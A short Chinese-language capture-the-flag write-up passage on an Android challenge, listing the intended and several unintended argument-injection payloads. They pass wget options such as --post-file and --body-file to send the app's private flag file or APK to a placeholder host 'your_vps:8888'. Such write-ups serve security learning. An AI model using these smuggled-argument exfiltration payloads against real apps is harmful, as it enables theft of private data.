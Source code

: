 > 赛题最终截图和跟我聊天的payload

### 非预期解

另外发现一些非预期的解法：

```python
# 设计的解法
payload = "--post-file /data/data/com.xuanxuan.getflag/files/flag http://your_vps:8888"

# /data/user/0 可以链接到 /data/data 目录下
payload = "--post-file /data/user/0/com.xuanxuan.getflag/files/flag http://your_vps:8888"

# 利用--body-file和--method结合一样可以达到效果
payload = "--body-file /data/data/com.xuanxuan.getflag/files/flag --method=HTTPMethod http://your_vps:8888"

# 可以直接通过下载apk的办法拿到flag，但是正好我这里的环境是com.xuanxuan.getflag-2，所以没有成功
payload = "--post-file /data/app/com.xuanxuan.getflag-1/base.apk http://your_vps:8888"
```